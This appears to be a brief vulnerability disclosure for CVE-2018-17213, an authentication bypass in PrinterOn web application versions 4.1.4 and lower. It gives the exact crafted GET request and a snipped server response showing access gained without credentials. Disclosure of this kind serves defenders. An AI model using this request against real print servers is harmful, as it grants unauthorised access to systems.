

# CVE-2018-17213-Authentication Bypass-PrinterOn

The PrinterOn web application, versions 4.1.4 and lower, is vulnerable to Authentification Bypass attacks that allows attackers to gain access via a crafted GET request. Even if the print server is secured to allow only valid users to authenticate, and has the “Allow Guest” functionality turned off, the vulnerability still occurs.

##### REQUEST:

```
GET /cps/aaalogin_exit?jobReferenceID=null&approveUse=TRUE HTTP/1.1
Host: YY.YY.YY.YY
```

##### RESPONSE:

```
HTTP/1.1 200 
<--SNIP-->
Server: PrinterOn 
 
<!DOCTYPE html>
<html lang="en">
    <head>
        <title>PrinterOn Printing Service</title>

<--SNIP-->

<h3 class="panel-title">

                                Step 1 - Choose a Printer
                           
<--SNIP-->
````



